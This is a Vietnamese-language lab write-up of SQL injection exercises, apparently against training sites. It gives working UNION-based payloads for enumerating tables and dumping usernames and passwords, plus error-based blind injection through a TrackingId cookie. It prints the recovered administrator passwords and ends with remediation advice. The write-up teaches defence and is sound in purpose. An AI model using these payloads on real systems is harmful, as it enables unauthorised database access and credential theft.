




# Write-up-SQL-injection
# 🔒 SQL Injection Write-up

<div align="center">


</div>

---

## 📋 Câu 4: SQL Injection - Liệt kê thông tin cơ sở dữ liệu

### 🎯 Mục tiêu
Khai thác lỗ hổng SQL injection để liệt kê nội dung cơ sở dữ liệu và lấy thông tin phiên bản database.

### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Kiểm tra giao diện và xác định lỗ hổng
- ✅ Truy cập vào trang web và kiểm tra các điểm có thể bị tấn công SQL injection
- ✅ Xác định các form input hoặc parameter có thể bị khai thác
<div align="center">
  
  <br>
  <em>Hình 1: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>

#### 🔸 Bước 2: Xác định số cột trong truy vấn
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+'abc','def'--
```

> **📊 Kết quả:**
- ✅ Xuất hiện 2 dòng với nội dung "abc" và "def"
- ✅ Chứng minh truy vấn gốc có đúng 2 cột
- ✅ Xác nhận có thể sử dụng UNION SELECT để khai thác

#### 🔸 Bước 3: Lấy thông tin phiên bản database
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+@@version,+NULL#
```

> **📊 Kết quả:**
- ✅ Hiển thị phiên bản của cơ sở dữ liệu
- ✅ Xác nhận thành công việc khai thác SQL injection

### 🎯 Kết luận
> ⚠️ **Cảnh báo:** Đã thành công khai thác lỗ hổng SQL injection để lấy thông tin phiên bản cơ sở dữ liệu, chứng minh hệ thống có lỗ hổng bảo mật nghiêm trọng.

---

## 🔐 Câu 5: SQL Injection - Đăng nhập với tài khoản Administrator

### 🎯 Mục tiêu
Khai thác SQL injection để lấy thông tin tài khoản administrator và thực hiện đăng nhập trái phép.
<div align="center">
  
  <br>
  <em>Hình 4: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>

### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Liệt kê tất cả các bảng trong database
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

> **📊 Kết quả:**
- ✅ Lấy được danh sách tất cả các bảng trong database
- ✅ Xác định các bảng có khả năng chứa thông tin người dùng

#### 🔸 Bước 2: Xác định bảng chứa thông tin người dùng
- 🔍 Phân tích danh sách bảng đã lấy được
- 🎯 Xác định bảng `users_ifhciw` có khả năng cao nhất chứa thông tin người dùng

#### 🔸 Bước 3: Liệt kê các cột trong bảng users
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ifhciw'--
```

> **📊 Kết quả:**
- ✅ Lấy được các trường: `password_pphepo`, `email`, `username_aaxkto`
- ✅ Xác định cấu trúc bảng chứa thông tin đăng nhập

#### 🔸 Bước 4: Lấy thông tin tài khoản
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+username_aaxkto,+password_pphepo+FROM+users_ifhciw--
```

> **📊 Kết quả:**
- ✅ Lấy được bảng chứa các tài khoản và mật khẩu
- ✅ Tìm thấy tài khoản administrator

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ Gfr2yx3szz63wprrvxig   │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 5: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator

### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng SQL injection để:

1. 📊 **Liệt kê cấu trúc database**
2. 🔓 **Lấy thông tin tài khoản administrator**
3. 🚪 **Thực hiện đăng nhập trái phép với quyền cao nhất**

> 💥 **Tác động:** Điều này cho thấy hệ thống có lỗ hổng bảo mật nghiêm trọng, cho phép kẻ tấn công có thể:
- 🗄️ Truy cập toàn bộ dữ liệu trong database
- 👤 Lấy thông tin nhạy cảm của người dùng
- 👑 Thực hiện các hành động với quyền administrator

---

## 🔐 Câu 9: SQL Injection - Lấy thông tin đăng nhập từ bảng users

### 🎯 Mục tiêu
Khai thác SQL injection để lấy thông tin đăng nhập của tất cả người dùng và administrator từ bảng users.
<div align="center">
  
  <br>
  <em>Hình 9: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>
### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Kiểm tra giao diện và xác định lỗ hổng
- ✅ Truy cập vào trang web và kiểm tra các điểm có thể bị tấn công SQL injection
- ✅ Xác định các form input hoặc parameter có thể bị khai thác

#### 🔸 Bước 2: Xác định số cột trong truy vấn
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+'abc','def'--
```

> **📊 Kết quả:**
- ✅ Xuất hiện 2 dòng với nội dung "abc" và "def"
- ✅ Chứng minh truy vấn gốc có đúng 2 cột
- ✅ Xác nhận có thể sử dụng UNION SELECT để khai thác

#### 🔸 Bước 3: Lấy thông tin đăng nhập từ bảng users
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+username,+password+FROM+users--
```

> **📊 Kết quả:**
- ✅ Hiển thị tất cả thông tin tài khoản của cả người dùng lẫn admin
- ✅ Lấy được danh sách đầy đủ username và password

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ g6ksy8lysmaig2jiuxz0   │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 4: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản administrator đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator

### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng SQL injection để lấy toàn bộ thông tin đăng nhập từ bảng users, bao gồm cả tài khoản administrator.

---

## 🍪 Câu 13: SQL Injection qua Cookie - Blind SQL Injection

### 🎯 Mục tiêu
Khai thác SQL injection thông qua cookie TrackingId để lấy thông tin đăng nhập administrator bằng Blind SQL Injection.
<div align="center">
  
  <br>
  <em>Hình 14: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>
### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Sử dụng Burp Suite để bắt gói tin
- 🛠️ Sử dụng Burp Suite để intercept HTTP request
- 🍪 Phát hiện cookie `TrackingId` có thể bị khai thác
- 📡 Bắt gói tin GET request

#### 🔸 Bước 2: Kiểm tra lỗ hổng SQL injection
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T'
```

> **📊 Kết quả:**
- ❌ Xuất hiện 2 thông báo lỗi SQL
- 🔍 Lỗi do chuỗi SQL chưa được kết thúc đúng cách
- 💡 Truy vấn trở thành: `SELECT * FROM tracking WHERE id = ' ''`

#### 🔸 Bước 3: Kết thúc truy vấn SQL
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T'--
```

> **📊 Kết quả:**
- ✅ Không còn thông báo lỗi
- ✅ Xác nhận có thể khai thác SQL injection qua cookie

#### 🔸 Bước 4: Blind SQL Injection - Kiểm tra cấu trúc
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT 1) AS int)--
```

> **📊 Kết quả:**
- ✅ Truy vấn không có lỗi
- ✅ Xác nhận có thể thực hiện Blind SQL Injection

#### 🔸 Bước 5: Lấy tên người dùng đầu tiên
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

> **📊 Kết quả:**
- ❌ Xuất hiện 2 lỗi nhưng đây là lỗi mong muốn
- ✅ Hiển thị tên người dùng đầu tiên: **administrator**
- 🎯 Xác nhận người dùng đầu tiên là admin

#### 🔸 Bước 6: Lấy mật khẩu của administrator
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

> **📊 Kết quả:**
- ❌ Xuất hiện lỗi nhưng chứa thông tin mật khẩu
- ✅ Lấy được mật khẩu: **osu96xzqbyjs9r61c7ou**

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ osu96xzqbyjs9r61c7ou    │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 7: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản administrator đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator

### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng Blind SQL Injection thông qua cookie TrackingId để lấy thông tin đăng nhập administrator.

> 💡 **Điểm đặc biệt:** Đây là ví dụ về Blind SQL Injection - một kỹ thuật tấn công phức tạp hơn khi không thể thấy kết quả trực tiếp mà phải dựa vào thông báo lỗi để suy luận thông tin.

---

## 📊 Tổng kết và Khuyến nghị

### 🚨 Các lỗ hổng được phát hiện

| Lỗ hổng | Mức độ | Mô tả | Câu |
|---------|--------|-------|-----|
| 🔴 **SQL Injection (UNION)** | **Nghiêm trọng** | Hệ thống không có cơ chế bảo vệ chống SQL injection | 4, 5, 9 |
| 🔴 **Blind SQL Injection** | **Nghiêm trọng** | Khai thác SQL injection qua cookie TrackingId | 13 |
| 🟡 **Thiếu Input Validation** | **Trung bình** | Không kiểm tra và làm sạch dữ liệu đầu vào | Tất cả |
| 🔴 **Thông tin nhạy cảm** | **Nghiêm trọng** | Mật khẩu được lưu trữ dưới dạng plain text | 5, 9, 13 |
| 🟡 **Cookie Security** | **Trung bình** | Cookie không được bảo vệ khỏi SQL injection | 13 |

### 📋 Tóm tắt các cuộc tấn công

| Câu | Phương pháp | Mục tiêu | Kết quả |
|-----|-------------|----------|---------|
| **4** | UNION SQL Injection | Lấy thông tin phiên bản DB | ✅ Thành công |
| **5** | UNION SQL Injection | Lấy thông tin từ bảng users_ifhciw | ✅ Lấy được admin account |
| **9** | UNION SQL Injection | Lấy thông tin từ bảng users | ✅ Lấy được admin account |
| **13** | Blind SQL Injection | Khai thác qua cookie TrackingId | ✅ Lấy được admin account |

### 🛡️ Khuyến nghị bảo mật

#### 🔧 Biện pháp kỹ thuật
- ✅ **Sử dụng Prepared Statements**: Thay thế string concatenation bằng prepared statements
- ✅ **Input Validation**: Kiểm tra và làm sạch tất cả dữ liệu đầu vào (form inputs, cookies, headers)
- ✅ **Mã hóa mật khẩu**: Sử dụng hash functions như bcrypt để mã hóa mật khẩu
- ✅ **Principle of Least Privilege**: Giới hạn quyền truy cập database
- ✅ **Error Handling**: Không hiển thị thông tin lỗi chi tiết cho người dùng
- ✅ **Cookie Security**: Validate và sanitize tất cả cookie values
- ✅ **Web Application Firewall**: Triển khai WAF để phát hiện và chặn các cuộc tấn công SQL injection
- ✅ **Database Monitoring**: Giám sát các truy vấn SQL bất thường

#### 📋 Checklist bảo mật
- [ ] Kiểm tra tất cả input parameters (form, URL, cookies)
- [ ] Implement parameterized queries cho tất cả database operations
- [ ] Mã hóa tất cả mật khẩu với salt và hash mạnh
- [ ] Giới hạn quyền database user (chỉ cần thiết)
- [ ] Cấu hình error handling không leak thông tin
- [ ] Validate và sanitize cookie values
- [ ] Triển khai WAF với rules chống SQL injection
- [ ] Thực hiện penetration testing định kỳ
- [ ] Code review tập trung vào SQL injection vulnerabilities
- [ ] Implement logging và monitoring cho database access

---

<div align="center">

### 🎓 **Kết luận**

> 💡 **Bài học:** SQL injection là một trong những lỗ hổng bảo mật phổ biến và nguy hiểm nhất trong web application. Việc hiểu rõ cách thức tấn công và phòng chống là vô cùng quan trọng đối với các developer và security professional.

**📅 Ngày thực hiện:** `[Ngày hiện tại]`  
**👨‍💻 Tác giả:** `[Tên của bạn]`  
**🏷️ Tags:** `#SQLInjection` `#WebSecurity` `#PenetrationTesting` `#DatabaseSecurity`

</div>

